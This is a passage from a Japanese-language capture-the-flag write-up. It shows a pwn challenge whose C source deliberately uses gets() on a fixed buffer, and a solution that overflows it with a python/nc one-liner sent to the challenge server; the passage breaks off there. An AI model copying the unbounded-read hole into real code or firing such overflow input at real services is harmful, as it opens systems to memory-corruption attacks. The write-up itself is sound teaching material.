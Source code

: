`pAr!s}`

<br />

Flag: `wtfCTF{in_Thr33_pAr!s}`




<br /><br />
## [Pwn]: MoM5m4g1c (100 points)
- - -
### Challenge
> Son:I want my chocolate mom! Mother: Fill the water bottle son! :)
<br /><br />
nc 20.42.99.115 3000

Attachment:

- MoM5m4g1C.c

以下が中身です。

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  int water;
  char bottle[125];

  water = 0;
  printf("Fill the water bottle kid!");
  gets(bottle);

  if(water != 0) {
      system("cat gift.txt");
  } else {
      printf("You are crazy lazy!:)\n");
  }
}
```

<br />
### Solution
提供されたのがC言語のソースコードのみで、バイナリはありません。

ソースを見ると、BOFを起こしてローカル変数waterを0以外の値で上書きするだけのようです。

テキトーにBOFを起こしました。

<pre>
$ (python -c 'print("A"*150)' ; cat - ) | nc 20.42.99.115 3000
